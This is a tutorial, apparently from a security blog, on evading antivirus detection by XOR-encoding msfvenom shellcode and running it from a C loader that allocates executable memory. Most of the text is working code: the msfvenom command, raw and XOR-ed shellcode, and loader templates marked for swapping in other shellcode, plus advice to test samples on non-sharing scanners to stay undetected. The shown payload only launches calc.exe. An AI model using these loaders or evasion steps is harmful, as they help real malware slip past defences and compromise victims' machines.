





Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

The compiled exe gets detected by 13 antivirus engines out of 40. 

{: .box-note}
**NOTE:** Never upload your samples to Virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR

Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~c
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
 
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
 
}
~~~
We get the result, the calc.exe does gets executed.

Let's check how many antivirus programs detect the encrypted payload using XOR.

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.